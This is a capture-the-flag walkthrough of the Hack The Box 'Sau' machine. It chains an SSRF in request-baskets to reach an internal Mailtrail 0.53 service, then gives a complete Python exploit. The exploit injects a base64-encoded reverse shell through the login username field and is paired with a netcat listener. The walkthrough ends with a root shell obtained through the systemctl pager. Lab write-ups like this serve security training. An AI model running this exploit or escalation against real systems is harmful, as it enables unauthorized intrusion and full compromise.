





A quick but comprehensive write-up for [Sau — Hack The Box](https://app.hackthebox.com/machines/Sau) machine.


## Enumeration

First, we can always start with getting a lay of the land using Nmap or any preferred port scanner

```sh
sudo nmap -sS -v -n -A 10.10.11.224
```

```txt
Nmap scan report for 10.10.11.224
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```

By going through our quick Nmap scan, we can observe that our port scanner was able to find 3 ports lurking in the network

1.  Port `22` which is `open` and service running on it is `ssh`
2.  Port `80` which is `filtered` and service running on it is `http`
3.  Port `55555` which is `open` and service running on it is `unknown`

Since, we do-not have any credentials or information related to our `ssh` opening, we can put it to rest in the back of our mind.

Port `80` is always our way-to-go but since `nmap` is marking it as being `filtered` . It is fair to conclude that we cannot communicate with it from outside until we have an help from within the network in which that service is running on.

Port `55555` seems to be our only way forward at this point.

Reading further `nmap` scan report regarding Port `55555` , we can observe that it is accessible from a browser since it accepts HTTP `GET` request.

Visiting `http://10.10.11.224:55555` using our browser reveals the following


Now, we know the service running on port `55555` is `request-baskets` and version of that service is `1.2.1`

When we have name of a service and its version at hand, it is good to take a look around using search engine to see if there is a vulnerability lurking inside this service.

Upon doing some research, you might land up on the fact that this version of `request-baskets` is vulnerable to `SSRF(Server Side Request Forgery)` . For more information, please do read [request-basket SSRF](https://notes.sjtu.edu.cn/s/MUUhEymt7) and also it is good to brush-up on `SSRF` if you are a little-bit hazy about it.

Essentially, when we have a `SSRF` vulnerability, a vulnerable `server` can make `request` to other internal services on behalf of the attacker.

Earlier, we have discovered Port `80` being available in the target location but we were not able to access it from outside. I think, we may just have found our way through with the discovery of `request-baskets` service.

Our goal becomes here to make use of `request-baskets` service which is running on Port `55555` to perform a `GET` request to the Port `80` .

I’d advise you to play around with the `request-baskets` to understand what exactly is this service doing. It’ll take some time but it will be fine.

## Exploitation

First, let’s create a request basket and adjust its settings as following



1.  `insecure_tls` set to `true` will bypass certificate verification
2.  `proxy_response` set to `true` will send response of the forwarded server back to our client
3.  `expand_path` set to `true` makes `forward_url` path `expanded` when original `http` `request` contains `compound` path.

Second, comes the moment of truth. Let’s find out what lurks inside our Port `80` by visiting our bucket `url` .



Now, we know the service running on Port `80` is `Mailtrail` of version `0.53` .

Now you know the rules, so do I. Instead of getting rick-rolled, it is time for you to do some research and see if you can find a vulnerability and if possible prepare a `proof-of-concept` of this simple vulnerability.

Our next vulnerability is that of `RCE (Remote Code Execution)` which is present in the version `0.53` of `Mailtrail` service.

I will present you with python script for this, although I’d recommend you to do some research before you just go along and execute this script.

```py
#!/bin/python3

import sys
import os
import base64

# Arguments to be passed
YOUR_IP = sys.argv[1]  # <your ip>
YOUR_PORT = sys.argv[2]  # <your port>
TARGET_URL = sys.argv[3]  # <target url>

print("\n[+]Started MailTrail version 0.53 Exploit")

# Fail-safe for arguments
if len(sys.argv) != 4:
    print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
    sys.exit(-1)


# Exploit the vulnerbility
def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
    payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
    encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
    command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
    os.system(command)


print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
try:
    exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
    print("\n[+] Successfully Exploited")
    print("\n[+] Check your Reverse Shell Listener")
except:
    print("\n[!] An Error has occured. Try again!")
```

First, use `netcat` and spin-up a listener on our local attack machine.

```sh
nc -nvlp 9991
```

Second, exploit the vulnerability using our code.

```sh
python3 myexploit.py 10.10.14.57 9991 http://10.10.11.224:55555/dpt9ib7
```

Third, wait for a few seconds and then hopefully you should see a `shell` on your `netcat listener` .



Congratulations. You are a `user` inside the system. At this point, you should explore the system a bit and find your first flag `user.txt` .

## Privilege Escalation

Almost no-one gets their technique right in first few trials. This takes up a bit more patience. However, since this is a write-up, I will directly provide you with the approach that will work in this situation.

```sh
sudo -l
```

Performing `sudo -l` provides us with the following



We can observe here that we are allowed to perform the mentioned command with `sudo` privileges.

Interesting thing here is that we are using `systemctl` binary. And hey, do you know that If we can execute `systemctl status` as `root`, we can spawn another shell in the pager with `root` privileges.

```sh
sudo systemctl status trail.service
```

Once inside `less` like interface, execute `!sh` command and pop yourself `root` shell.



Way easier than getting `user` shell. Congratulations, now go ahead and find `root.txt` to get your final flag.

## Roll Credits

👻 Make sure to `hack the world` .